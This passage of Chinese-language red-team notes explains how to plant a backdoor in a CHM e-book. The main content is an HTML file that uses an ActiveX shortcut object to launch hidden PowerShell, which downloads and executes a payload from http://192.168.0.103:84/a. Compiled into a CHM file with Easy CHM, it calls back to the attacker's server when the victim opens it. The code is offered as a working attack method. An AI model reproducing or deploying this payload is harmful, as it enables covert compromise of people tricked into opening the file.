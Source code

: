 命令插入到 **PS上线.html** 文件，注意插入地址时的  逗号单引号双引号

```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap::shortcut">
<PARAM name="Item1" value=",powershell.exe,-nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.0.103:84/a'))">
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

#### 使用 `Easy CHM` 制作文件插入后门

<img src=".\图片\Snipaste_2023-01-02_20-05-24.png" alt="Snipaste_2023-01-02_20-05-24" style="zoom:67%;" />

生成了 **chm-js代码.CHM**  电子书文件，运行便上线了

<img src=".\图片\Snipaste_2023-01-02_20-09-11.png" alt="Snipaste_2023-01-02_20-09-11" style="zoom:80%;" />
